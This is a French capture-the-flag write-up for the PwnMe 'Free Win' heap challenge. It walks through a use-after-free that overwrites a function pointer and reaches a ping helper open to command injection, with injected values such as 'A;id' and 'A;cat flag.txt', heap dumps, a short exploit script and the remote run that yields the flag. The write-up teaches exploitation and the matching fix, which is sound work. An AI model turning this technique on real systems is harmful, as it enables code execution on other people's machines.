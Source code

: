 ## PWN / Free Win

<p align="center">
  <img src="img/consignes.png" />
</p>

### Fichiers

- binaire : [free_win](free_win)
- libc : [libc-2.27.so](libc-2.27.so)
- code source : [free_win.c](free_win.c)


### Challenge

Comme le nom le laisse entendre, on risque de devoir jouer avec la heap : use after free, double free ...

Comme le code source est fourni on en profite, c'est beaucoup plus simple pour comprendre les différentes fonctionnalités, et on remarque que l'on retrouve les fonctions classiques d'un challenge use-after-free :
- `malloc`
- `free`
- modifier quelque chose
- exécuter quelque chose

Et bien évidemment le `free` est mal fait ... puisque le pointeur vers la zone mémoire libérée n'est pas remis à null.

Bonne pratique :

```c
free(ptr) ;
ptr = NULL;
```

Sans cela, la zone mémoire libérée est considérée disponible par l'allocateur de mémoire qui va la réutilisée, mais `ptr` pointant toujours dessus, il aura accès à des données qui ne le concernent pas initialement.

Pour plus d'info sur la gestion de la mémoire et les différents bin :
- https://beta.hackndo.com/use-after-free/
- https://0x00sec.org/t/heap-exploitation-abusing-use-after-free/3580
- https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/



### Analyse

```bash
$ file free_win
free_win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9b3e2540dc61308ba5304b0f80172831b5af359a, not stripped

$checksec --file=free_win
RELRO           STACK CANARY      NX            PIE
Partial RELRO   Canary found      NX enabled    No PIE
```

On remarque aussi la fonction suivante, qui n'est pas appelée par le programme :

```c
// Not used yet, but will be used in a later version as a choice between different functions
int execute_chunk_ping(char *buffer)
{
    char cmd[0x100] = {0};
    sprintf(cmd, "ping -c 1 %s", buffer);

    system(cmd);

    return 0;
}
```

Qui est vulnérable à une exécution de code arbitraire, puisque le buffer passé en argument est contrôlé par l'utilisateur sans vérification du programme.

En effet : `execute_chunk_ping("A;id")` fonctionne :

```bash
$ ping -c 1 A;id
ping: A: Nom ou service inconnu
uid=1000(mk) gid=1000(mk) ...
```

En analysant la heap lors des différentes allocations / libérations :

```c
struct
{
    char header[0x20]; // Not used yet, but will be used in order to specify the type of the entry
    int (*function)(const char *);
    char *buffer;
    int size;
} * entries[0x10] = {0};
```

```
0x603ac0:	0x0000000000000000	0x0000000000000000  // chunck 0 - header
0x603ad0:	0x0000000000000000	0x0000000000000000  
0x603ae0:	0x00007ffff7e5e5f0	0x0000000000603b00  <= *fonction + *buffer
0x603af0:	0x0000000000000020	0x0000000000000031  <= size (0x20)
0x603b00:	0x4141414141414141	0x4141414141414141  <= buffer
0x603b10:	0x4141414141414141	0x0000000000000000
0x603b20:	0x0000000000000000	0x0000000000000041

0x603b30:	0x0000000000000000	0x0000000000000000  // chunck 1 - header
0x603b40:	0x0000000000000000	0x0000000000000000
0x603b50:	0x00007ffff7e5e5f0	0x0000000000603b70
0x603b60:	0x0000000000000020	0x0000000000000031
0x603b70:	0x4242424242424242	0x4242424242424242
0x603b80:	0x4242424242424242	0x0000000000000000
0x603b90:	0x0000000000000000	0x0000000000000041

0x603ba0:	0x0000000000000000	0x0000000000000000  // chunck 2 - header
0x603bb0:	0x0000000000000000	0x0000000000000000  
0x603bc0:	0x00007ffff7e5e5f0	0x0000000000603be0
0x603bd0:	0x0000000000000020	0x0000000000000031
0x603be0:	0x4343434343434343	0x4343434343434343
0x603bf0:	0x4343434343434343	0x0000000000000000
0x603c00:	0x0000000000000000	0x0000000000020401
```


### Exploit

- allouer trois chunck avec des buffers de taille 0x10 octets : 0, 1 et 2
- libérer 2 puis 1, du coup les bin disponibles seront chaînés dans l'ordre `2 -> 1` pour l'allocateur
- allouer un chunck avec un buffer de taille 56 octets, l'allocateur va choisir le premier disponible à savoir `1`
- dans `1` la taille va nous permettre d'écraser l'ancienne `function` de `2` par `execute_chunk_ping()` que l'on pourra alors appeler grâce à l'ancien pointeur vers `2` qui n'aura pas été réinitialisé.
- lors de la libération de `2` le début du buffer est remis à 0, mais comme le pointeur est toujours utilisable, on peut réécrire note commande système dans le buffer
- appeler `execute_chunk_ping(buffer)` de `2`.


Pourquoi 56 octets pour la deuxième allocation ? Parce que si on demande plus, l'allocateur ne va pas utiliser un fastbin pour le buffer de la structure. Du coup la nouvelle structure sera bien écrite à l'emplacement pointé par `1`, mais le buffer est alloué plus loin dans la heap. Dans ce cas on ne peut pas écraser l'ancien `2`


```python
malloc(r, b'0', b'16', b'AAAAAAAA')
malloc(r, b'1', b'16', b'AAAAAAAA')
malloc(r, b'2', b'16', b'AAAAAAAA')
free(r,b'2')
free(r,b'1')
malloc(r, b'1', b'56', b'Z' * 32 + p64(execute_chunk_ping) )
edit_chunck(r, b'2', b'A;cat flag.txt')
execute(r, b'2')
```

- code : [free_win.py](free_win.py)

```bash
$ python3 free_win.py REMOTE
[*] '/home/mk/ctf_pwnme/pwn/free_win/free_win'
[+] Opening connection to pwn.pwnme.fr on port 7011: Done
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
b'sh: 1: ping: not found\n'
b'PWNME{aed472e0d91c1f5e6b8158f2a5e75d09}Welcome to FreeWin !\n\n  1.  Malloc\n  2.  Free\n  3.  Edit\n  4.  Execute\n\n >> '
[*] Closed connection to pwn.pwnme.fr port 7011
```
